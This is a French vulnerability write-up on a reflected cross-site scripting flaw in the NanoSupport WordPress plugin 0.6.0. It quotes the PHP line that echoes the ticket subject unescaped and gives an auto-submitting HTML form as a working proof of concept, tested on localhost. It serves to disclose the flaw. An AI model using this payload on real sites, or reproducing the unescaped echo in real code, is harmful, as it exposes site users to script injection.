 ```yaml
---
title: "Cross-Site Scripting (reflected) dans le plugin Wordpress NanoSupport — Support Ticketing & Knowledgebase for WordPress"
tags: [vulnérabilité]
---
```


## Présentation du plugin

Le plugin [NanoSupport — Support Ticketing & Knowledgebase for WordPress](https://wpscan.com/plugin/nanosupport/) (slug: `nanosupport`) se présente de cette façon :

> Create a fully featured Support Center within your WordPress environment without any third party system dependency, for completely FREE of cost.
> 
> No 3rd party support ticketing system required, no external site/API dependency, simply create your own fully featured Support Center within your WordPress environment, and take your support into the next level.
> 
> It has built-in Knowledgebase that is integrated to put generalized information for public acknowledgement.

La version testée est la 0.6.0 et date d'il y a 3 ans au moment de ces lignes.

## La vulnérabilité

Le script `nanosupport.php` du plugin inclut différents scripts dont `includes/shortcodes/ns-submit-ticket.php`.

Ce dernier définit un shortcode :

```php
add_shortcode( 'nanosupport_submit_ticket', 'ns_submit_support_ticket' )
```

La fonction `ns_submit_support_ticket` en question effectue tout un tas d'opérations, mais c'est surtout cette ligne qui est vulnérable :

```php
<input type="text" class="ns-form-control" name="ns_ticket_subject"
 id="ns-ticket-subject" placeholder="<?php esc_attr_e( 'Subject in brief', 'nanosupport' ); ?>"
 value="<?php echo !empty($_POST['ns_ticket_subject']) ? stripslashes_deep( $_POST['ns_ticket_subject'] ) : ''; ?>" aria-describedby="ns-subject" required autocomplete="off">
```

La fonction [stripslashes_deep](https://developer.wordpress.org/reference/functions/stripslashes_deep/) utilisée sur le paramètre `ns_ticket_subject`  ne protège en aucun cas de l'injection de code HTML et/ou Javascript.

PoC utilisant un formulaire en auto-submit :

```html
<html>
<body>
<form id="myForm" method="POST" action="http://localhost:8000/?page_id=6">
        <input type="hidden" name="ns_ticket_subject" value="&quot;&gt;&lt;ScRiPt&gt;alert(/wav2prlu88/)&lt;/sCrIpT&gt;" />
        <input type="hidden" name="ns_ticket_details" value="Hi there!" />
</form>
<script>document.createElement('form').submit.call(document.getElementById('myForm'));</script>
</body>
</html>
```

À noter que la page sur laquelle doivent être envoyées les données doit être celle correspondant à la soumission de tickets (lien `Submit Ticket` sur le Wordpress).

